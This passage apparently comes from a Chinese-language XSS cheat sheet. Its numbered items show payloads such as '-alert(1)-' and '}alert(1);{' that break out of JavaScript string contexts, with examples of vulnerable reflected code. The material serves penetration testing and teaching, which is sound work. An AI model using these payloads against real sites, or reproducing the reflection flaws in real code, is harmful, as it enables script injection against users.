 ```html
'-alert(1)-'
'/alert(1)//
```

* 示例源代码

```html
<script>
    var sitekey = 'REFLECTED_HERE';
</script>
```

* 如果输入Payload为 '-alert(1)-'，则如下所示

```html
<script>
    var sitekey = ''-alert(1)-'';
</script>
```

> 引号被反斜杠转义，所以我们需要绕过它们

* 输入Payload后

```html
<script>
    var sitekey = '\\'alert(1)//';
</script>
```

8. 当同一行JS代码中有多个反射时使用。

```html
/alert(1)//\
/alert(1)}//\
```

* 示例源代码

```html
<script>
    var a = 'REFLECTED_HERE'; var b = 'REFLECTED_HERE';
</script>
```

* 输入Payload后

```html
<script>
    var a = '/alert(1)//\'; var b = '/alert(1)//\';
</script>
```

9. 当输入在字符串定界值内且在单个逻辑块内（如函数或条件语句中，如if、else等）时使用。

```html
'}alert(1);{'
\'}alert(1);{// 
```
